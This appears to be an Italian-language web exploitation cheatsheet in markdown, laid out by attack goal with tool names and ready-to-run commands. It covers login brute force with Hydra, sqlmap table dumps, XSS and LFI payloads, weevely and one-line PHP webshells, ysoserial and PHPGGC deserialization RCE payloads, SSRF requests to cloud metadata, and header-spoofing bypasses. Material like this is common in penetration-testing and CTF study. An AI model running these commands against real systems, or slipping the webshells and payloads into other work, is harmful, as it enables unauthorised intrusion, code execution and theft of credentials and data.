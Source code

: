 # 🎨 Web Exploitation Cheatsheet – Poster Edition

🧭 **Mappa mentale veloce** degli strumenti e tecniche di **exploitation web**, divisa per obiettivi.

---

> 🔑 **Bypass Login & Sessioni**
>
> * 🗝️ **Hydra** → brute force su form web, SSH, FTP, SMB, RDP
> * 🧰 **Burp Intruder** → brute force avanzato (CSRF, JSON, cookie)
> * 🔐 **jwt\_tool** → manipolazione/attacchi su JWT (`alg=none`, chiavi deboli)
>
> ```bash
> hydra -l admin -P rockyou.txt <target-ip> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
> hydra -L users.txt -P passwords.txt ssh://<target-ip>
> python3 jwt_tool.py <token> -S hs256 -d wordlist.txt
> ```

---

> 💉 **SQL Injection**
>
> * 🩸 **sqlmap** → enum DB, dump tabelle, RCE via `--os-shell`
> * 🧮 **NoSQLMap** → exploit injection su MongoDB
>
> ```bash
> sqlmap -u "http://<target-ip>/item.php?id=1" --dbs
> sqlmap -u "http://<target-ip>/item.php?id=1" --dump -T users -D appdb
> ```

---

> 🧨 **Cross-Site Scripting (XSS)**
>
> * 🎯 **XSStrike** → scanner XSS avanzato
> * 🧾 **PayloadAllTheThings** → repository payloads
>
> ```bash
> xsstrike -u http://<target-ip>/search.php?q=test
> # Payload base
> <script>alert(1)</script>
> # Polyglot
> "><svg onload=alert(1)>
> ```

---

> 📂 **File Inclusion (LFI/RFI)**
>
> * 🗂️ **LFISuite** → automazione exploitation LFI
> * 🔗 **Wrapper PHP** → `php://filter`, `data://`, `expect://`
>
> ```bash
> python3 lfisuite.py -u "http://<target-ip>/index.php?page=home" -p page
> http://<target-ip>/index.php?page=../../../../etc/passwd
> http://<target-ip>/index.php?page=php://filter/convert.base64-encode/resource=index.php
> ```

---

> 📦 **File Upload Exploitation**
>
> * 🛠️ **Burp Repeater** → manipola estensioni e Content-Type
> * 🐚 **weevely3** → genera webshell PHP obfuscata
>
> ```bash
> weevely generate mysecretpass shell.php
> weevely http://<target-ip>/uploads/shell.php mysecretpass
> ```

---

> 🏗️ **CMS Exploitation**
>
> * 🔍 **WPScan** → utenti, plugin, vulnerabilità WordPress
> * 🐉 **Droopescan** → moduli/temi Drupal
> * 🧾 **Joomscan** → Joomla vuln scanner
>
> ```bash
> wpscan --url http://<target-ip>/ --enumerate u,p --api-token <TOKEN>
> droopescan scan drupal -u http://<target-ip>
> joomscan -u http://<target-ip>
> ```

---

> 🧾 **Deserialization**
>
> * 🪄 **ysoserial** → payload gadget chains (Java)
> * 📦 **PHPGGC** → gadget chain PHP unserialize()
>
> ```bash
> java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.bin
> phpggc Laravel/RCE1 system id | base64
> ```

---

> 🌐 **SSRF (Server-Side Request Forgery)**
>
> * 🌍 **Burp Collaborator** → rileva richieste OOB
> * 🚪 Payloads comuni → 127.0.0.1, AWS metadata
>
> ```bash
> http://127.0.0.1:80/admin
> http://169.254.169.254/latest/meta-data/
> ```

---

> 🖋️ **SSTI (Template Injection)**
>
> * 🧮 **tplmap** → automazione SSTI
> * 🔍 Test rapidi → `{{7*7}}`, `${7*7}`
>
> ```bash
> tplmap -u "http://<target-ip>/index.php?name=FUZZ" -d "name=FUZZ"
> ```

---

> ⚡ **RCE & Command Injection**
>
> * 💥 **Commix** → command injection automation
> * 🐚 **Webshell** → upload PHP/ASP/JS shells
>
> ```bash
> commix --url="http://<target-ip>/vuln.php?cmd=ls"
> <?php system($_GET['cmd']); ?>
> ```

---

> 🧩 **Headers & Caching**
>
> * ✏️ **Header tricks** → `X-Forwarded-For: 127.0.0.1`
> * 🌀 **Cache poisoning** → manipola risposte proxy/cache
>
> ```bash
> curl -H "X-Forwarded-For: 127.0.0.1" http://<target-ip>/admin
> ```

---

# 🧠 Quick Map

* 🔑 **Auth bypass** → Hydra / Burp Intruder / jwt\_tool
* 💉 **SQLi** → sqlmap / NoSQLMap
* 🧨 **XSS** → XSStrike / PayloadAllTheThings
* 📂 **LFI/RFI** → LFISuite / wrappers PHP
* 📦 **Upload** → Burp / weevely3
* 🏗️ **CMS** → WPScan / Droopescan / Joomscan
* 🧾 **Deserialization** → ysoserial / PHPGGC
* 🌐 **SSRF** → Burp Collaborator / cloud metadata
* 🖋️ **SSTI** → tplmap / injection payloads
* ⚡ **RCE/Command Injection** → Commix / Webshell
* 🧩 **Headers & Cache** → X-Forwarded-For / poisoning

---
